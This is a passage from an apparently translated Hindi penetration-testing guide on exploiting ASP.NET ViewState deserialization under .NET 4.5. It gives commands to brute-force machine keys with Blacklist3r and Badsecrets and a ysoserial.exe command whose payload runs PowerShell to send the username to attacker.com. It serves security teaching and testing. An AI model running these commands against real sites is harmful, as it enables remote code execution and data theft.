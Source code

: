 ### परीक्षण मामला: 4 – .Net >= 4.5 और EnableViewStateMac=true/false और ViewStateEncryptionMode=true/false केवल दोनों विशेषता को नकारें

हम ASP.NET फ्रेमवर्क का उपयोग करने को मजबूर कर सकते हैं नीचे दिखाए गए वेब.config फ़ाइल में निम्नलिखित पैरामीटर निर्दिष्ट करके।
```xml
<httpRuntime targetFramework="4.5" />
```
इसके विकल्प के रूप में, यह वेब.कॉन्फ़िग फ़ाइल के `machineKey` पैरामीटर में नीचे दिए गए विकल्प को निर्दिष्ट करके किया जा सकता है।
```bash
compatibilityMode="Framework45"
```
जैसा पिछले में **मान एन्क्रिप्टेड है।** इसके बाद, **एक वैध पेलोड भेजने के लिए हमलावर को कुंजी की आवश्यकता है।**

आप [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper)का उपयोग करके उपयोग की जा रही कुंजी खोजने का प्रयास कर सकते हैं:
```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata bcZW2sn9CbYxU47LwhBs1fyLvTQu6BktfcwTicOfagaKXho90yGLlA0HrdGOH6x/SUsjRGY0CCpvgM2uR3ba1s6humGhHFyr/gz+EP0fbrlBEAFOrq5S8vMknE/ZQ/8NNyWLwg== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata = {__VIEWSTATE parameter value}
--IISDirPath = {Directory path of website in IIS}
--TargetPagePath = {Target page path in application}
```
[यहाँ से अधिक विस्तृत विवरण के लिए IISDirPath और TargetPagePath का संदर्भ देखें](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

या, [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) (जेनरेटर मान के साथ):
```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```
![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

एक वैध मशीन कुंजी की पहचान होने पर, **अगला कदम है** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) **का उपयोग करके एक सीरीकृत पेलोड उत्पन्न करना**
```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```
यदि आपके पास `__VIEWSTATEGENERATOR` का मान है तो आप कोशिश कर सकते हैं **--generator** पैरामीटर का उपयोग उस मान के साथ करके और **--path** और **--apppath** पैरामीटर को **छोड़** सकते हैं।

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.2.png)
